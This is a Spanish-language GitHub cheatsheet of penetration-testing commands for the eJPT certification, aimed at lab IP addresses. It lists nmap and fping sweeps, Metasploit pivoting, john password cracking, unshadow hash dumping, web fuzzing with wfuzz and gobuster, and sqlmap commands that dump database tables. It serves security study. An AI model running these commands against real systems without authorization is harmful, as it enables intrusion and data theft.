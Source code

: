 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
```sql
nmap -sn 10.10.10.0/24
```
## fping
```sql
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Pivoting
## Ip Route
```sql
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
## Metasploit
```sql
run autoroute -s 10.10.16.0/24
```
# Password cracking
## John
```sql
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```sql
unshadow passwd shadow > unshadowed.txt
```
# Fuzzing
## Nmap
```sql
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```sql
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```sql
dirb http://10.10.15.12
```
## gobuster
```sql
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
